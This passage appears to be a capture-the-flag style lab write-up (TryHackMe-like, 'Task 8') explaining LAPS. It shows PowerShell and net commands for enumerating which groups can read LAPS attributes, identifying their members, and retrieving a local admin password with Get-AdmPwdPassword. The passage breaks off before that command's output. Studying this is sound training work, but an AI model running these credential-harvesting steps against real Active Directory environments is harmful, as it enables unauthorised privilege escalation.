 ![image](https://github.com/user-attachments/assets/4fe92bbe-55bc-4fb9-8634-1cc6fa8039b1)



<br>



## Task 8 : Local Administrator Password Solution (LAPS)

  `LAPS` replaces the insecure Group Policy Preferences (`GPP`) method for managing local admin passwords. 
- Instead of storing passwords in SYSVOL (vulnerable to decryption), LAPS stores them in two AD attributes:
    - `ms-mcs-AdmPwd` → Cleartext password of the local admin.
    - `ms-mcs-AdmPwdExpirationTime` → Password expiration time.
 
> Workflow..

### 1. Check if LAPS is Installed
- Look for AdmPwd.dll in:

      dir "C:\Program Files\LAPS\CSE"

  ![image](https://github.com/user-attachments/assets/29961d8e-b9cb-4acb-b676-119fc7c60754)


### 2. Find Who Can Read LAPS Passwords
- Use Find-AdmPwdExtendedRights to find groups with access:

      Find-AdmPwdExtendedRights -Identity <OU>  


     - Output:

            THM\LAPsReader

  ![image](https://github.com/user-attachments/assets/ed6079a0-2117-48b3-86b4-94645255e5af)

### 3. Identify Users in the Privileged Group

- Check members of THMGroupReader:

      net groups "LAPsReader"
      
    - Output:

          bk-admin
      
    ![image](https://github.com/user-attachments/assets/1e66f8cb-591d-4a55-a071-8dcf92314a2e)
 
### 4. Get LAPS Password (If You Have Access)
- Use Get-AdmPwdPassword as a privileged user (e.g., bk-admin):

      Get-AdmPwdPassword -ComputerName CREDS-HARVESTIN
    
    -  Output:
